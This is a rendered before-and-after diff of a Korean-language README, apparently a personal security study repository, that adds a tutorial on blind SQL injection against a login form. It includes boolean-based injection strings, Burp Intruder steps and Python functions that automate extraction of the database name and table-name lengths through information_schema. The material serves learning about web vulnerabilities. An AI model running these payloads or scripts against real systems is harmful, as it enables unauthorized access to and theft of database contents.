

Before and after one commit to MLTree2/HK, a Markdown page: webH/1. SQL_Injection/README.md, the part around one of its changes. Shown at 81% size. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/webH/1. SQL_Injection/README.md
+++ b/webH/1. SQL_Injection/README.md
@@ -35,9 +35,69 @@ SELECT * FROM users WHERE id=''or 1=1 #' AND pw='$pw'
 
 Blind_SQL_Injection 이란 일반적인 SQL_Injection과 비슷하게 취약점을 이용하지만, 시간에 따른 응답 결과, 참과 거짓에 따른 응답 결과 등을 분석하여 정보를 얻는 방식입니다.
 
+**1. 데이터 베이스 이름 길이 찾기**
+
 로그인화면에서의 ID 입력란에 `' or 1=1 and length(database())=1#`을 입력해 보면 다음과같은 오류가 뜹니다.
 
 [blind 오류 1]
 
-이 때 숫자를 증가시켜가며 입력해보면 ![image](https://user-images.githubusercontent.com/66786006/221412637-947a9e49-4175-4c91-891d-9b0d6b6942b8.png)
+이 때 숫자를 증가시켜가며 입력해보면  `' or 1=1 and length(database())=4#` 에서 로그인에 성공하여 데이터베이스 이름의 길이가 4글자임을 알 수 있습니다.
 
+이러한 작업을 간편하게 하기위해 Burp Suite 의 Intruder 기능을 이용할 수 있습니다.
+
+[burp payload] , [payload setting]
+
+위와같이 증가시켜줄 부분을 정한 후 다음과 같이 1~10까지의 숫자를 넣는 설정을 한 후 결과 값을 보면
+
+![image](https://user-images.githubusercontent.com/66786006/221413659-ae57300b-7280-41df-bbe2-ee799cca3dc5.png)
+
+4 에서 Length가 다른 하나를 확인 할 수 있습니다.
+
+**2. 데이터 베이스 이름 찾기**
+
+데이터 베이스의 이름을 찾기위해서는 `' or 1=1 and ascii(substring(database(), 1~4,1))= 65~128` 을 입력하여 알 수 있습니다. `1~4`와 `65~128`을 각각 넣어봐야 하는데 이를 위하여 위 방법과 동일하게 Burp Suite을 이용할 수 있고 python을 이용하여 자동화 툴을 만들 수 있습니다. 다음은 Blind_SQL_injection을 수행하는 blind_sql.py 코드의 일부 입니다.
+
+``` python
+def fun_2(len_db):
+    print('processing Fun_2...')
+    db_name = ""
+    for i in range(len_db):
+        for j in range(65, 128):
+            inj_str = f"' or 1=1 and ascii(substring(database(), {i+1}, 1)) = {j}#"
+            resp = requests.post(url, data=f"id={inj_str}&pw=pw&login=Login", headers={'Content-Type': 'application/x-www-form-urlencoded'})
+            if "invalid" not in resp.text:
+                db_name += chr(j)
+                break
+    print (f'DB name: {db_name}')
+ ```
+ 위 코드에서는 요청에대한 결과에서 `invalid` 단어가 없으면 결과에 글자가 추가되는 방식으로 만들었습니다. 이를 실행시켜보면
+
+ [py db 이름]
+
+다음과같이 DB이름이 tree 임을 알아낼 수 있습니다.
+
+**3. 테이블의 길이, 개수 찾기**
+
+```python
+def fun_4(dbname):
+    print('processing Fun_4...')
+    col =[]
+    j = 0
+    while True:
+        i = 0
+        while i <=MAX_LENGTH:
+            SQLINJq = f"' or 1=1 and length((select table_name from information_schema.tables where table_schema='{dbname}' limit {j},1))={i}#"
+            req = requests.post(url,data=f"id={SQLINJq}&pw=pw&login=Login",headers={'Content-Type': 'application/x-www-form-urlencoded'})
+            if "invalid" not in req.text:
+                #print(f"success with {i}")
+                col.append(i)
+                break
+            i += 1
+        if i >50:
+            break
+        j += 1
+    print(col)
+    return col
+```
+각 테이블의 길이와 개수를 알기 위해서는 다음과같은 코드를 사용하였습니다. 1번과 유사한방법으로 테이블의 이름의 길이를찾고, 50글자가 넘는다면 없다고 생각하여 개수를 추측합니다.
+
````
Also changed, not shown: other parts of webH/1. SQL_Injection/README.md (+53 -0 lines).
